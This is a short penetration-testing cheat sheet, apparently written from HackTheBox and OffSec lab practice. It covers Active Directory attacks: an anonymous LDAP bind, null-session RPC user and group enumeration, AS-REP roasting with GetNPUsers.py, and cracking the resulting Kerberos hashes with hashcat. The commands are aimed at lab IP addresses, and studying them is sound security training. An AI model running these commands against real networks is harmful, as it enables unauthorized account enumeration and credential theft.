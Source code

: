 # Active Directory

## ldapsearch

It's worth checking if the LDAP service allows anonymous binds using the ldapsearch tool

If your server is accepting anonymous authentication, you will be able to perform a LDAP search query without binding to the admin account. (the domain in this case is htb.local

```
ldapsearch -x -h 192.168.65.122 -D '' -w '' -b "DC=hutch,DC=offsec"   
```

Note: This is the simplest form of output, so this will contain a whole to of information.

## RPC Enum

`rpcclient -U "" 10.10.10.161`

`enumdomusers` `enumdomgroups`

Query domain admins `querygroup 0x200` `querygroupmem 0x200`

Query admin `queryuser 0x1f4`

## AS-REP roasting

There is an option for an account to have the property Do not require Kerberos preauthentication or UF\_DONT\_REQUIRE\_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts. I have a list of accounts from my RPC enumeration above. Ill start without the SM _or HealthMailbox_ accounts

`for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done`

`hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force`
